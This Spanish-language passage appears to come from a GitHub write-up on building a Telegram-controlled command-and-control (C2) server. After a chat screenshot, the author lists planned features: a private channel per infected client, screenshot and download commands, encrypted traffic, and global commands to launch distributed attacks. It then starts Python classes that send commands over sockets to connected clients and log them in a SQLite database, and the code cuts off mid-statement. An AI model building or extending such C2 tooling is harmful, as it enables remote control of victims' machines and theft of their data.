 #### Ejemplo de chat con este código:

![chat_inicial](/images/C2_Over_Tg/chat_telegram_inicial.png)

Esta estructura es muy básica y ya me empecé a dar cuenta de muchas cosas que se tenian que mejorar como por ejemplo:

- **Creacion de diferentes canales por cliente** para asi poder tener multiples a la vez y poder tener un canal de comunicaciones privado con cada uno de ellos

- Que no fueran comandos directos sino que hubieran ya multiples **funcionalidades definidas** como **(/screenshot /download...)** 

- **Cifrado fuerte de las comunicaciones** para mayor seguridad y privacidad

- **Comandos globales a multiples clientes** para poder lanzar quiza ataques distribuidos 

- Tambien queria pasar toda la estructura del servidor a **POO** con **clases** para hacer mas bonito y eficiente el codigo


## Mejoras

Bascicamente lo primero que hice fue pasar todo a POO creando dos clases principales en el servidor

```python
class ClientSession:

    def __init__(self, socket, address):
        self.socket = socket
        self.address = address
        self.ip = address[0]
        self.username = None
        self.os_version = None
        self.topic_id = None

    def send_command(self, command):
        try:
            self.socket.send(command.encode("utf-8"))
            response = self.socket.recv(4096).decode("utf-8").strip()
            return response if response else "[Sin respuesta]"
        except Exception as e:
            return f"[!] Error executing the command: {e}"

    def close(self):
        try:
            self.socket.close()
        except Exception as e:
            print(f"[!] Error closing the connection with {self.ip}: {e}")

class C2Server:

    def __init__(self):
        self.clients = {}
        self.active_shell_sessions = {}
        self.server = None

        signal.signal(signal.SIGINT, self.shutdown)
        self.init_db()

    def init_db(self):
        conn = sqlite3.connect("c2.db")
        cursor = conn.cursor()
        cursor.execute('''CREATE TABLE IF NOT EXISTS clients (
                            id INTEGER PRIMARY KEY AUTOINCREMENT,
                            telegram_id TEXT,
                            ip TEXT,
```